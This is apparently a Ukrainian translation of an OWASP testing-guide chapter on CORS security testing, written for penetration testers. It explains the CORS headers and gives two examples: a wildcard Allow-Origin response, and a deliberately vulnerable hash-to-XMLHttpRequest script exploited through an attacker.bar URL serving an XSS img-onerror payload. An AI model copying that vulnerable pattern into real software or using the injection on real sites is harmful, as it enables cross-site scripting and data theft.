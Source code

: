 
# Тестування Крос-Доменного Спільного Використання Ресурсів (CORS)

## Ідентифікатор
**WSTG-CLNT-07**

## Анотація

Крос-доменне спільне використання ресурсів (CORS) — це механізм, що дозволяє веб-браузеру виконувати запити між доменами за допомогою API XMLHttpRequest L2 контрольованим чином. Раніше API XMLHttpRequest L1 дозволяв надсилати запити лише в межах одного джерела через обмеження політики єдиного джерела.

Крос-доменні запити мають заголовок `origin`, який ідентифікує домен, що ініціює запит, і завжди надсилається на сервер. CORS визначає протокол між веб-браузером і сервером для перевірки допустимості такого запиту. Для цього використовуються HTTP-заголовки.

Специфікація W3C CORS вимагає, щоб для "неспростих" запитів, таких як запити, відмінні від GET або POST, або запити, які використовують облікові дані, попередньо надсилався запит OPTIONS для перевірки, чи не матиме цей запит шкідливого впливу на дані. У попередньому запиті перевіряються методи і заголовки, дозволені сервером, а також можливість використання облікових даних. На основі результату запиту OPTIONS браузер вирішує, чи дозволений основний запит.

---

## `Origin` та `Access-Control-Allow-Origin`
Заголовок `origin` завжди надсилається браузером у CORS-запитах і вказує на джерело запиту. Цей заголовок неможливо змінити за допомогою JavaScript, проте покладатися на нього для перевірки доступу не варто, оскільки його можна підробити поза браузером. Тому необхідно використовувати протоколи на рівні застосунків для захисту конфіденційних даних.

`Access-Control-Allow-Origin` — це заголовок відповіді, що використовується сервером для вказання доменів, яким дозволено читати відповідь. Відповідно до специфікації CORS W3, клієнт сам визначає, чи має він доступ до даних відповіді на основі цього заголовка.

З точки зору тестування на проникнення слід звертати увагу на небезпечні конфігурації, наприклад, використання символу `*` у заголовку `Access-Control-Allow-Origin`, що дозволяє доступ усім доменам. Іншим небезпечним прикладом є ситуація, коли сервер повертає заголовок `origin` без додаткових перевірок, що може призвести до доступу до конфіденційних даних. Така конфігурація є дуже небезпечною та загалом неприпустимою, за винятком випадків публічних API, призначених для загального доступу.

---

## `Access-Control-Request-Method` та `Access-Control-Allow-Method`
Заголовок `Access-Control-Request-Method` використовується, коли браузер виконує попередній запит OPTIONS, і дозволяє клієнту вказати метод запиту для фінального запиту. З іншого боку, `Access-Control-Allow-Method` — це заголовок відповіді, який використовується сервером для опису методів, дозволених клієнтам.

---

## `Access-Control-Request-Headers` та `Access-Control-Allow-Headers`
Ці два заголовки використовуються між браузером і сервером для визначення, які заголовки можуть бути використані для виконання крос-доменного запиту.

---

## `Access-Control-Allow-Credentials`
Цей заголовок у складі попереднього запиту вказує, що фінальний запит може включати облікові дані користувача.

---

## Валідація вводу
XMLHttpRequest L2 (або XHR L2) додає можливість створення крос-доменного запиту за допомогою API XHR для зворотної сумісності. Це може призвести до вразливостей безпеки, які не були присутні в XHR L1. Важливі аспекти для аналізу: URL-адреси, передані в XMLHttpRequest без перевірки, особливо якщо дозволені абсолютні URL-адреси, оскільки це може призвести до впровадження коду. Інша потенційно вразлива частина — це дані відповіді, які можуть бути неекранованими і контрольованими через введення даних користувача.

---

## Інші заголовки
Інші важливі заголовки включають:
- `Access-Control-Max-Age`, який визначає час кешування попереднього запиту в браузері.
- `Access-Control-Expose-Headers`, який вказує, які заголовки є безпечними для доступу в рамках CORS.

---

## Цілі тестування
1. Виявити кінцеві точки, що реалізують CORS.
2. Переконатися, що конфігурація CORS є безпечною або нешкідливою.

---

## Як тестувати
Інструменти, такі як ZAP, можуть дозволити тестувальникам перехоплювати HTTP-заголовки, що дає можливість побачити, як використовується CORS. Особливу увагу слід звертати на заголовок `origin`, щоб дізнатися, які домени дозволені. Також необхідно вручну перевіряти JavaScript, щоб визначити, чи є код вразливим до впровадження через неправильну обробку введених користувачем даних. Нижче наведено деякі приклади.

#### Приклад 1: незахищена відповідь із символом підстановки `*` у Access-Control-Allow-Origin

Запит `http://attacker.bar/test.php` (зверніть увагу на заголовок «origin»):

```
GET /test.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/CORSexample1.html
Origin: http://example.foo
Connection: keep-alive
```

Відповідь (зверніть увагу на заголовок «Access-Control-Allow-Origin»):

```
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[Response Body]
```

#### Приклад 2: Проблема перевірки вхідних даних: XSS із CORS

Цей код робить запит до ресурсу, переданого після символу `#` в URL-адресі, який спочатку використовувався для отримання ресурсів на тому самому сервері.

Вразливий код:

```html
<script>
    var req = new XMLHttpRequest();

    req.onreadystatechange = function() {
        if(req.readyState==4 && req.status==200) {
            document.getElementById("div1").innerHTML=req.responseText;
        }
    }

    var resource = location.hash.substring(1);
    req.open("GET",resource,true);
    req.send();
</script>

<body>
    <div id="div1"></div>
</body>
```

Наприклад, такий запит покаже вміст файлу `profile.php`:

`http://example.foo/main.php#profile.php`

Запит та відповідь на запит `http://example.foo/profile.php`:

```
GET /profile.php HTTP/1.1
Host: example.foo
[...]
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
[...]
Content-Length: 25
Content-Type: text/html

[Response Body]
```

Тепер, оскільки немає перевірки URL-адреси, ми можемо ввести віддалений сценарій, який буде впроваджено та виконано в контексті домену 'example.foo', із такою URL-адресою:

`http://example.foo/main.php#http://attacker.bar/file.php`

Запит та відповідь на запит `http://attacker.bar/file.php`:

```
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/main.php
origin: http://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```
